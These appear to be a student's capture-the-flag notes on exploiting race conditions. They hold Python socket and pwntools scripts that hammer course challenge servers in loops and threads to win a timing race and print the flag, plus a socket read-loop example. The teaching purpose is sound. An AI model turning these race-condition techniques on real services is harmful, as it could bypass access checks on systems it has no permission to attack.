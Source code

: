 # Race condition

### Create socket with python directly (practice-5)
```
import socket

with socket.create_connection(('tasks.ws24.softsec.rub.de', 33269)) as so:
    while True:
        so.sendall(b'vuln\n')
        potential_flag = so.recv(1024)
        if b'softsec{' in potential_flag:
            print(potential_flag)
            break

        so.sendall(b'/flag\n')
        so.recv(1024)
```


### Create multiple threads (30 santa)
- here is use pwntools send function, but threading
```python
import pwn
import threading

pwn.context.arch = 'amd64'

# 1) docker compose -f debug.yml up

# a new instance sets count to zero
def spawn_new():
    while(True):
        new_conn = pwn.remote('tasks.ws24.softsec.rub.de', 32984, level='error')
        #new_conn = pwn.remote('127.0.0.1', 1024, level='error')
        new_conn.close()

# if count = 0 when we check, we win
def send_naughty():
    conn_naughty = pwn.remote('tasks.ws24.softsec.rub.de', 32984, level='error')
    #conn_naughty = pwn.remote('127.0.0.1', 1024, level='error')
    while(True):
        conn_naughty.sendlineafter(b'> ', b'Get presents')
        potential_flag = conn_naughty.recvline()
        if b'softsec' in potential_flag:
            print(potential_flag)
            break

# set count to zero often
for _ in range(15):
    t = threading.Thread(target=spawn_new)
    t.start()

# try to win
t4 = threading.Thread(target=send_naughty)
t4.start()
t4.join()
```


### Implement recvuntil using socket
- pwntools recvuntil is too slow for race conditions
- unlike pwntools' recvline, recv will read up to (but probably fewer than) the specified number of bytes, and stop when there is no more data to read currently. If you're waiting on a response from the server, that will typically be the data from a single write on the server side. This means that sometimes you will get more than one line in a single recv, and sometimes you may need multiple recv calls to receive the entire repsonse from the server. In general, you can implement pwntools' recvuntil by receiving data in a loop until the separator shows up (though this means you may have additional data that you didn't want to process yet, etc.). Mostly, the server should behave consistently, so once you figured out where the data you want from a recv is, you should be able to just grab it.
```python
import socket

# Open the connection. The `with` part means that the socket will
# close automatically when you leave the scope
with socket.create_connection(('example.com', 80)) as so:
    # Send some data, and make sure that it all arrives
    so.sendall(b'HEAD / HTTP/1.1\r\nHost: example.com\r\n\r\n')

    # Read until we see the end of the headers (CRLF x2)
    response = b''
    while b'\r\n\r\n' not in response:
        # Receive _up to 1024 bytes_ (from a single server write)
        response += so.recv(1024)

    # Process the response somehow
    assert response.endswith(b'\r\n\r\n'), 'Unexpected data after headers'
    print(response.decode())
```
